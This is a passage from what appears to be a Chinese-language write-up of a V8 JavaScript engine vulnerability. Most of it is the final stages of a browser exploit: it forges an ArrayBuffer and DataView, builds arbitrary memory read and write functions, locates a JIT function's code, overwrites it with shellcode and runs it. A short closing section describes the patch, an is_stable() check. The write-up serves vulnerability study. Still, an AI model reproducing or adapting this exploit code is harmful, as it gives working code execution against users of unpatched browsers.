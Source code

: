 ```
	e3();
}
change_elements_kind_array(evil3);
e3();
fake_arraybuffer = evil3[1];
if(fake_arraybuffer instanceof ArrayBuffer == true){
}
fake_dv = new DataView(fake_arraybuffer,0,0x4000);
/******************************* step 5 Read a Function Address   ***************************************/
var func_body = "eval('');";
var function_to_shellcode = new Function("a",func_body);
change_elements_kind_parameter(evil4,function_to_shellcode);
shellcode_address_ref = u2d(e4()) + 0x38-1;
/**************************************  And now,we get arbitrary memory read write!!!!!!   ******************************************/
	function Read32(addr){
		fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
		return fake_dv.getUint32(0,true);
	}
	function Write32(addr,value){
		fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
		alert("w");
		fake_dv.setUint32(0,value,true);
	}
	shellcode_address = Read32(shellcode_address_ref) + Read32(shellcode_address_ref+0x4) * 0x100000000;;
	var addr = shellcode_address;
	fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
	for(var i = 0; i < shellcode.length;i++){
		var value = shellcode[i];
		fake_dv.setUint32(i * 4,value,true);
	}
	alert("boom");
	function_to_shellcode();
</script>
```

### 补丁

![](./img2/8.png)

很简单，就是在FindElementsKindTransitionedMap调用之前加一个判断is_stable()。



